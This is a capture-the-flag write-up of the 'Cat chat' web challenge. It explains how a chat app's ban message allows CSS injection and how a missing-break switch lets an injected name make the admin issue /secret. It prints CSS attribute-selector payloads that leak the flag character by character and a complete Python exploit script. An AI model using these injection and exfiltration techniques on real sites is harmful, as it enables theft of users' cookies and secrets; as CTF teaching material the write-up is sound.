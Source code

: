 # Cat chat (web 210p, 46 solved)

In the task we get access to a web-based chat application.
We automatically join a random channel, and we can use the link with room number to invite more people to the chat.
The whole chat is implemented in javascript and apart from [client code](client.js) we also get [server code](server.js).

The chat, apart from obvious message sending function, has also some special commands:

- `/name YourNewName` - Change your nick name to YourNewName.
- `/report` - Report dog talk to the admin.

And if we look into the source code we get also information on admin commands:

- `/secret asdfg` - Sets the admin password to be sent to the server with each command for authentication. It's enough to set it once a year, so no need to issue a /secret command every time you open a chat room.
- `/ban UserName` - Bans the user with UserName from the chat (requires the correct admin password to be set).

If we use `/report` command admin comes to the chat, and leaves after a moment.
If any of the users meanwhile says `dog`, this user will get banned.
Ban is only client-side, managed by a cookie, so we can un-ban the user by simply removing the cookie.

From the sources the first important part is the location of the flag, visible in the source code of the server code for handling `/secret` command:

```javascript
      case '/secret':
        if (!(arg = msg.match(/\/secret (.+)/))) break;
        res.setHeader('Set-Cookie', 'flag=' + arg[1] + '; Path=/; Max-Age=31536000');
        response = {type: 'secret'};
```

If someone issues this command, then server sends a cookie `flag` with designated value.
From the description of the command we can guess that admin already has this cookie set, so our goal is to steal the cookie.
We notice here that there is a way to add more parameters to the cookie header, so theoretically we could set secret with value `; Path=/whatever;` and thus overwrite the original intended cookie Path parameter.
This is useful, because it means we could use `/secret something; domain=gooe.com` to avoid setting a new cookie, so we won't overwrite the original flag someone might have stored in the cookie.
Stealing cookie would seem like a classic XSS task, however if we check `Content Security Policy` we can see that the whole application has:

```
default-src 'self'; 
style-src 'unsafe-inline' 'self'; 
script-src 'self' https://www.google.com/recaptcha/ https://www.gstatic.com/recaptcha/; 
frame-src 'self' https://www.google.com/recaptcha/
```

So there is no way we can run any javascript there.
However, we can notice that there is a chance to load a CSS from inline.

But once we analyse the client code, we notice that the cookie is not the only place where the flag might be present.
In the client-side handler for server messages we can see:

```javascript
secret(data) { display(`Successfully changed secret to <span data-secret="${esc(cookie('flag'))}">*****</span>`); },
```

So once `/secret` command is issued, the server responds with `secret` message, and client will show a `span` with flag in it.
Moreover, the flag is actually value of attribute `data-secret` of tag `span`.
We've written already a bit about exfiltrating data from html tags attributes via CSS in https://github.com/p4-team/ctf/tree/master/2018-01-20-insomnihack/web_css and here we have a very similar case.

If we could inject CSS style somewhere on the page, we could place:

```css
span[data-secret^={letter} i]{{background: url({some_url}?msg={letter})}}
``` 

Every user for whom this style is applied, would make a request on URL we provide, assuming the secret data match the letter we selected.
In our case we can't use just any URL, because CSP will not allow sending the request "outside", but fortunately we can use url `/room/{room_id}/send?name=leaker&msg={letter}` and the data will appear as message on the chat in the room we select.
We can make a lot of those style entries, one for each letter, and thus recover the first letter of the secret.
Then we can simply match two letters, then three etc.

Now we're left with two problems:
- We have to find a way to inject the CSS on the page
- We have to find a way to convince admin to issue `/secret` command.

Solution to the first problem can be found in the code handling banned users:

```javascript
    ban(data) {
      if (data.name == localStorage.name) {
        document.cookie = 'banned=1; Path=/';
        sse.close();
        display(`You have been banned and from now on won't be able to receive and send messages.`);
      } else {
        display(`${esc(data.name)} was banned.<style>span[data-name^=${esc(data.name)}] { color: red; }</style>`);
      }
    }
```

If we look closely at the `else` case, we notice that DOM of the page will get extended with `<style>span[data-name^=${esc(data.name)}] { color: red; }</style>`, and we control the `data.name` parameter, since it's the username of banned user.

We can, therefore, use a name which closes the opening style tags and adds new ones, for example:

```
/name a i]{}] span[data-secret^=C i]{{background: url(/room/{room_id}/send?name=leaker&msg=C)}}span[data-name^=whatever
```

This way we can inject exfiltration CSS code, which will get triggered if any of users present on the chat have the secret displayed on the screen and it starts with `C`.
The only thing we need to trigger this is to call an admin and convince him to ban the user.

Now we come to the last issue, how to convince admin to issue `/secret` command.
This is a bit funny, because we've seen in writeups of some other teams, that they got this part all wrong, and their solution worked purely by accident.

We've spent quite a while on this step, because we knew from the start that simply forcing admin to send message `/secret something` to the chat won't work, contrary to what some other teams claim.
We tested this on a standard user, and we confirmed in the source code that such action will NOT cause the secret to appear on the chat.
The reason is quite trivial really, if we look at the sever code for handling this action:

```javascript
      case '/secret':
        if (!(arg = msg.match(/\/secret (.+)/))) break;
        res.setHeader('Set-Cookie', 'flag=' + arg[1] + '; Path=/; Max-Age=31536000');
        response = {type: 'secret'};
```

There is no broadcast here!
The response is never send via SSE, and therefore it will not get handled on the client side by the event handler which causes the secret to be added to DOM of the page.

So how come it actually worked for some other teams?
Pure coincidence.
The real vulnerability is in the event handling function on the server side:

```javascript
    switch (msg.match(/^\/[^ ]*/)[0]) {
      case '/name':
        if (!(arg = msg.match(/\/name (.+)/))) break;
        response = {type: 'rename', name: arg[1]};
        broadcast(room, {type: 'name', name: arg[1], old: name});
      case '/ban':
        if (!(arg = msg.match(/\/ban (.+)/))) break;
        if (!req.admin) break;
        broadcast(room, {type: 'ban', name: arg[1]});
      case '/secret':
        if (!(arg = msg.match(/\/secret (.+)/))) break;
        res.setHeader('Set-Cookie', 'flag=' + arg[1] + '; Path=/; Max-Age=31536000');
        response = {type: 'secret'};
      case '/report':
        if (!(arg = msg.match(/\/report (.+)/))) break;
        var ip = req.headers['x-forwarded-for'];
        ip = ip ? ip.split(',')[0] : req.connection.remoteAddress;
        response = await admin.report(arg[1], ip, `https://${req.headers.host}/room/${room}/`);
    }
```

We have a long switch-case block here, but there is no `break` anywhere!
Handling a single action does not stop the execution flow, it just falls through.
This means if packet `/name xx /ban yy /secret zz` comes to the server, all of those commands will get executed!

If we now check how the ban command is issued by admin on the client side:

```javascript
send(`/ban ${name}`);
```

We can see that we can easily set a special name which contains `/secret something; domain=gooe.com` string in it, and if admin bans such user, he will automatically issue `/secret` command.

This is the reason why it worked for so many teams. 
It had nothing to do with forcing admin to load a style from `/room/{room_id}/send?name=admin&msg=/secret xx` when banning a user, but simply the ban command contained the `/secret xx` string, and thus the command got executed by the handler on server side.

Our attack approach at this point is quite clear:

1. Create a user named `/secret something; domain=gooe.com`
2. Create a user with CSS exfiltration name.
3. Place one more user on the channel, to listen for flag characters.
4. Call admin via `/report`
5. Send `dog` message from the first user, get him banned and force admin to issue `/secret` command
6. Send `dog` message from the second user, get him banned and force admin to leak first character of the flag

We can then repeat those steps for 2nd, 3rd and next flag characters.
We've made a semi-automatic script for this, which required human intervention to collect the recaptcha token to call admin:

```python
import time

from requests import get
from requests import session

FLAG_CHARSET = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"#$%&()*+,-./:;<=>?@[\\]^_|~ '
CSS_HACK = """span[data-secret^={letter} i]{{background: url(/room/{room_id}/send?name=admin&msg={letter})}}"""
ROOM_ID = 'fe1fc600-c41b-454f-85eb-e5f03da8b435'
URL = 'https://cat-chat.web.ctfcompetition.com/room/{room_id}/'.format(room_id=ROOM_ID)


def send_message(session, name, message):
    return session.get(URL + 'send', params={'name': name, 'msg': message}, headers={'Referer': URL})


def change_name(session, new_name):
    return send_message(session, 'python_bot', "/name %s" % new_name)


def main():
    flag_payload = '/name a i]{}]'
    flag_payload += ''.join([CSS_HACK.format(room_id=ROOM_ID, letter=x) for x in FLAG_CHARSET])
    flag_payload += 'span[data-name^=whatever'
    captcha = raw_input('captcha code:')
    r = get(URL + 'send', params={'name': 'bzorp', 'msg': '/report %s' % captcha}, headers={'Referer': URL})
    print(r.content)
    time.sleep(1)
    cookier = session()
    cookier.get(URL)
    change_name(cookier, '/secret something; domain=gooe.com')
    send_message(cookier, '/secret something; domain=gooe.com', 'dog')
    time.sleep(2)
    flag_stealer = session()
    flag_stealer.get(URL)
    send_message(flag_stealer, flag_payload, 'dog')

main()
```

Running this mutiple times, expanding the flag prefix each time gives us: `CTF{L0LC47S_43V3}`
